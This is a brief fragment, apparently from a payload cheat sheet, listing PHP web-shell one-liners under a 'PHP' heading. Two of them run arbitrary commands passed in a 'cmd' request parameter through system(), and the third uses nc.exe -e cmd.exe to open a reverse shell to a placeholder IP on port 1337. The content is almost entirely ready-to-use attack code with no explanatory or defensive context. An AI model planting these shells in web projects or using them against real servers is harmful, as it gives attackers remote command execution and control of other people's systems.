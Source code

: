 - [PHP](#PHP)

### PHP
```
<?php system($_GET["cmd"]); ?>

<?php system($_REQUEST["cmd"]); ?>

<?php system('nc.exe -e cmd.exe xx.xx.xx.xx 1337')?>
```
